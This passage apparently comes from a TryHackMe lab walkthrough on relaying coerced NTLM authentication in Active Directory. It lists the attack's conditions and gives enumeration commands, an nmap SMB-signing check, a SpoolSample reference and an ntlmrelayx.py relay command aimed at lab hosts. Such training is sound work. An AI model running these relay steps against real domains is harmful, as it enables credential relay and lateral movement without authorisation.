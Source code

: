 Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the 
following four conditions:

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

Condition 1 and 2 have been met already. The only two we need to ensure works are conditions 3 and 4.

**Print Spooler Service**

Use a WMI query to query the Print Spooler service's current state

`GWMI Win32_Printer -ComputerName thmserver2.za.tryhackme.loc`

We may get an access denied error, then we can try the PowerShell `Get-PrinterPort` command

`Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`

If both commands throw an error we may need to take a leap of faith and assume condition 3 is met.

**SMB signing**

In order to relay the coerced authentication attempt, SMB signing should not be enforced. It should be noted 
that there is a difference between SMB signing being allowed and SMB signing being enforced. Since some 
legacy systems do not support SMB signing, by default, the configuration of SMB is that signing is allowed 
but not enforced, meaning that it will only be used if supported.

Since we will be hosting a malicious SMB server, we can ensure our server does not support signing, forcing 
the target not to sign the SMB authentication attempt.

To verify that THMSERVER1 and THMSERVER2 do not have SMB signing enforced, we can use Nmap:

`nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc`

**Exploiting Authentication Relays**

We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay. It is a C# exploit but has already been
compiled for you and stored in the C:\Tools\ directory on THMWRK1.  We will use Spoolsample.exe to coerce 
THMSERVER2 to authenticate to us on our AttackBox and then Impacket's ntlmrelayx.py to relay the 
authentication attempt THMSERVER1. Note that if you are using your own VM, you will need to make sure you 
have the updated version of Impacket that supports SMBv2.

The first step is to set up the NTLM relay using the IP address of the target, if we use the hostname the 
host could request Kerberos authentication:

`python3 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug`
